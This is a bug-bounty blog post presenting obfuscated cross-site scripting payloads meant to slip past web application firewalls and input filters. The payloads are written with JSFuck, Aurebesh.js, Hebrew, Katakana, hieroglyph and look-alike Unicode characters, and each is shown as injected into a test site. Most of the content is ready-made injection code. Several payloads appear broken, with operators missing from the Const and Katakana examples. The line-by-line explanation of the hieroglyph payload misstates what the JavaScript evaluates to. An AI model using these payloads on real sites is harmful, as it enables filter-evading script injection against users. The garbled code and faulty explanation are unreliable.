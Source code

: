 ```yaml
---
layout: post
title:  Exploiting Cross-Site Scripting Vulnerabilities with Polymorphic Payloads
description: In this post, the use of polymorphism in JavaScript execution payloads in Cross-Site Scripting (XSS) attacks is presented.
date:   2024-05-23 11:01:35 +0300
image:  '/images/150.jpg'
tags:   [bug bounty, web]
---
```


Hello hackers,

Today, I want to introduce an intriguing topic I've recently started studying: polymorphic JavaScript execution payloads for Cross-Site Scripting (XSS) attacks. This advanced technique can help bypass Web Application Firewalls (WAFs) and various filters, making it an invaluable tool for our bug bounty hunts and penetration tests. By understanding and applying polymorphism in our payloads, we can enhance our ability to exploit vulnerabilities more effectively and evade defensive mechanisms. This knowledge is essential for anyone looking to stay ahead in the ever-evolving landscape of web security.

> The term polymorphism originates from Greek and means "many forms."
>

### JSFuck
<a href="https://jsfuck.com/" target="_blank">JSFuck Site</a>

JSFuck is an esoteric and educational programming style based on the atomic parts of JavaScript. It uniquely utilizes only six different characters to write and execute code: [ ] ( ) ! +. This minimalist approach not only highlights the flexibility and power of JavaScript but also serves as an intriguing challenge for developers.

One of the remarkable features of JSFuck is its independence from the browser environment. This means you can run JSFuck code in Node.js, broadening its applications beyond traditional web contexts. Whether you are exploring the depths of JavaScript's capabilities or looking for unconventional ways to obfuscate code, JSFuck offers a fascinating avenue for both learning and experimentation.

An example of using JSFuck is the following payload, where all characters after "onerror" correspond to the JavaScript code alert(1).

{% highlight js %}
    <img src=x onerror=[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]][([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+([][[]]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+!+[]]+(+[![]]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]+(+(!+[]+!+[]+!+[]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([]+[])[([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][[]]+[])[+!+[]]+(![]+[])[+!+[]]+((+[])[([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]]](!+[]+!+[]+!+[]+[!+[]+!+[]])+(![]+[])[+!+[]]+(![]+[])[!+[]+!+[]])()((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[+!+[]+[!+[]+!+[]+!+[]]]+[+!+[]]+([+[]]+![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[!+[]+!+[]+[+[]]])>
{% endhighlight %}

To test the payload, a site by Brutelogic was used, which allows for testing Cross-Site Scripting (XSS) payloads.
In the user field, we inserted the payload.

![]({{site.baseurl}}/images/156.jpg)
*Payload Injection*

![]({{site.baseurl}}/images/155.jpg)
*Reflection in the code*


### AUREBESH.JS
<a href="https://aem1k.com/aurebesh.js/" target="_blank">Aurebesh Site Translator</a>
In this instance, we present an advanced XSS payload that utilizes an SVG element's onload attribute. This payload dynamically constructs JavaScript code and employs variable names and characters to obscure its true intent.

Aurebesh.js, created by Martin Kleppe (@aemkei), translates JavaScript into various other writing systems. For this example, we constructed a payload by converting the word "alert" using Aurebesh.js.

{% highlight js %}
    <svg/onload=a='',l=!a+a,e=!l+a,r=a+{},t=l[a++],aa=l[al=a],ae=++al+a,ar=r[al+ae],l[ar+=r[a]+(l.e+r)[a]+e[ae]+t+aa+l[al]+ar+t+r[a]+aa][ar](e[a]+e[al]+l[ae]+aa+t+"(a)")()>
{% endhighlight %}

![]({{site.baseurl}}/images/157.jpg)
*Payload Injection*

![]({{site.baseurl}}/images/158.jpg)
*Reflection in the code*

This payload utilizes the encoded version of alert(1) to execute JavaScript in the onload event of an SVG element, demonstrating how Aurebesh.js can obfuscate code to bypass filters.

### Hebrew
Here, we present an advanced XSS payload that utilizes Hebrew characters for obfuscation. By substituting standard Latin characters with visually similar Hebrew characters, we create a polymorphic script that can bypass many traditional security filters.

{% highlight js %}
    <script>%20א="",ב=!א+א,ג=!ב+א,ד=א+%7B%7D,ה=ב[א++%20],ו=ב[ח=א],ט=++ח+א,כ=ד[ח+ט],ב[%20כ+=ד[א]+(ד.ד+ד)[א]+ג[ט]+ה+ו+ב[ח]+%20כ+ה+ד[א]+ו][כ](ג[א]+ג[ח]+ב[ט%20]+ו+ה+"('שלום%20עולם')")()%20</script>
{% endhighlight %}

![]({{site.baseurl}}/images/159.jpg)
*Payload Injection*

* Character Substitution: The script uses Hebrew characters to replace standard Latin characters, such as א instead of a, ב instead of b, and so on. This substitution makes the payload less recognizable to pattern-matching filters.

### Const
In this example, we explore a sophisticated XSS payload that leverages polymorphism through the obfuscation of the const keyword.

{% highlight js %}
    <script> const       cοnst =    'const'; ([ cоnst ,     conѕt ]=    cοnst , [ соnst ,     сonѕt ,     cоnѕt , соnѕt ,     сοnѕt ,     сοnѕt , cοnѕt ]=[!! cоnst ]   ! cоnst   cоnst .     cоnst )[    cоnst = cοnst       сonѕt       cоnѕt   cоnst       соnst       conѕt   сonѕt ]   [ cоnst ]   ( сοnѕt   cοnѕt       соnѕt       сonѕt   соnst  '`'  cοnst  '`') `` </script>
{% endhighlight %}

* Character Substitution: The script uses characters that look similar but are different, such as ο (Greek omicron) instead of o, and ѕ (Cyrillic small letter es) instead of s. This helps in evading pattern-matching filters.

![]({{site.baseurl}}/images/160.jpg)
*Payload Injection*

![]({{site.baseurl}}/images/161.jpg)
*Reflection in the code*

### Katakana
In this example, we introduce an advanced XSS payload that employs Katakana characters for obfuscation. This method involves substituting standard characters with visually similar Katakana characters, creating a polymorphic script that can slip past many traditional security defenses.

{% highlight js %}
    <script> ウ=""   ,ア=     !ウ      ウ,ネ     =!ア      ウ,    ホ=ウ  {},    ヌ=ア    [ウ      ],セ=     ア[ミ    =ウ]    ,ハ=   ミ     ウ,     ヘ=ホ    [ミ ハ    ],ア[    ヘ =    ホ[ウ ] (ホ  .ホ ホ    )[ウ]     ネ[ハ    ] ヌ     セ ア   [ミ]  ヘ ヌ             ホ[     ウ] セ    ][ヘ]    (ネ[ ウ]              ネ[ミ              ] ア     [ハ]  セ ヌ             "(ウ)" )() </script>
{% endhighlight %}

* Character Substitution: The script uses Katakana characters to replace standard Latin characters. For example, ウ is used instead of u, ア instead of a, and so forth. This substitution makes the payload less recognizable to pattern-matching filters.

![]({{site.baseurl}}/images/162.jpg)
*Payload Injection*

![]({{site.baseurl}}/images/163.jpg)
*Reflection in the code*

### Filler
In this context, we unveil an advanced XSS payload named "filler" that utilizes Unicode characters for obfuscation.

{% highlight js %}
    <script>/ㅤ/-[ﾠ=''],ﾠ‌=!ﾠ ﾠ,ﾠ‌‌=!ﾠ‌ ﾠ,ﾠ‌‌‌=ﾠ {},ﾠ‌‌‌‌=ﾠ‌[ﾠ  ],ﾠ‌‌‌‌‌=ﾠ‌[ﾠ‌‌‌‌‌‌=ﾠ],ﾠ‌‌‌‌‌‌‌=  ﾠ‌‌‌‌‌‌ ﾠ,ﾠﾠ=ﾠ‌‌‌[ﾠ‌‌‌‌‌‌ ﾠ‌‌‌‌‌‌‌],ﾠ‌[ﾠﾠ =ﾠ‌‌‌[ﾠ] (ﾠ‌.ﾠ‌‌ ﾠ‌‌‌)[ﾠ] ﾠ‌‌[ﾠ‌‌‌‌‌‌‌] ﾠ‌‌‌‌ ﾠ‌‌‌‌‌ ﾠ‌[ﾠ‌‌‌‌‌‌] ﾠﾠ ﾠ‌‌‌‌ ﾠ‌‌‌[ﾠ] ﾠ‌‌‌‌‌][ﾠﾠ](ﾠ‌‌[ﾠ] ﾠ‌‌[ﾠ‌‌‌‌‌‌] ﾠ‌[ﾠ‌‌‌‌‌‌‌] ﾠ‌‌‌‌‌ ﾠ‌‌‌‌ "(ﾠ)")()</script>
{% endhighlight %}

* Unicode Characters: The payload uses Unicode characters that resemble ASCII characters. This makes it difficult for pattern-matching filters to recognize malicious patterns.
* Dynamic Variable Naming: The variables are named using Unicode characters, making them appear unusual and hard to detect.
* Dynamic Code Generation: The payload constructs the JavaScript code dynamically, which is a technique used to further obfuscate the actual functionality.
* Complex Obfuscation: The payload continues to build complexity by using operations and concatenations that are not straightforward.

![]({{site.baseurl}}/images/164.jpg)
*Payload Injection*

![]({{site.baseurl}}/images/165.jpg)
*Reflection in the code*

### Hieroglyph
The last method of polymorphic payload that I will present is based on Hieroglyph characters. 

{% highlight js %}
    <script>𓅂='',𓂀=!𓅂+𓅂,𓁄=!𓂀+𓅂,𓊎=𓅂+%7B%7D,𓆣=𓂀[𓅂++],𓊝=𓂀[𓇎=𓅂],𓏢=++𓇎+𓅂,𓆗=𓊎[𓇎+𓏢],𓂀[𓆗+=𓊎[𓅂]+(𓂀.𓁄+𓊎)[𓅂]+𓁄[𓏢]+𓆣+𓊝+𓂀[𓇎]+𓆗+𓆣+𓊎[𓅂]+𓊝][𓆗](𓁄[𓅂]+𓁄[𓇎]+𓂀[𓏢]+𓊝+𓆣+'%60𓅂%60')%60%60</script>
{% endhighlight %}

Initialization:
* 𓅂='': Initializes 𓅂 to an empty string.
* 𓂀=!𓅂+𓅂: Sets 𓂀 to false (negation of an empty string is true, but adding an empty string results in false).
* 𓁄=!𓂀+𓅂: Sets 𓁄 to true (negation of false is true, and adding an empty string does not change it).
Dynamic Code Construction:
* 𓊎=𓅂+%7B%7D: Concatenates 𓅂 with an empty object (%7B%7D is {} URL-encoded).
* 𓆣=𓂀[𓅂++]: Uses 𓆣 to store a character from 𓂀 at the incremented index of 𓅂.
* 𓊝=𓂀[𓇎=𓅂]: Sets 𓊝 to the value in 𓂀 at index 𓇎 which is assigned to 𓅂.
Complex Obfuscation:
* 𓏢=++𓇎+𓅂: Increments 𓇎 and concatenates it with 𓅂, storing the result in 𓏢.
* 𓆗=𓊎[𓇎+𓏢]: Sets 𓆗 to the value in 𓊎 at index 𓇎 + 𓏢.
Further Obfuscation and Execution:
* 𓂀[𓆗+=𓊎[𓅂]+(𓂀.𓁄+𓊎)[𓅂]+𓁄[𓏢]+𓆣+𓊝+𓂀[𓇎]+𓆗+𓆣+𓊎[𓅂]+𓊝][𓆗]: Dynamically constructs the index and value for 𓆗.
* (𓁄[𓅂]+𓁄[𓇎]+𓂀[𓏢]+𓊝+𓆣+'%60𓅂%60')%60%60: Constructs the final code string, then executes it.

![]({{site.baseurl}}/images/166.jpg)
*Payload Injection*

![]({{site.baseurl}}/images/167.jpg)
*Reflection in the code*

All these payloads were created based on the content from @aem1k's website: https://aem1k.com/.

That's it for today, hackers. Thank you for reading my post. I hope to see you in the next one. Hack the world!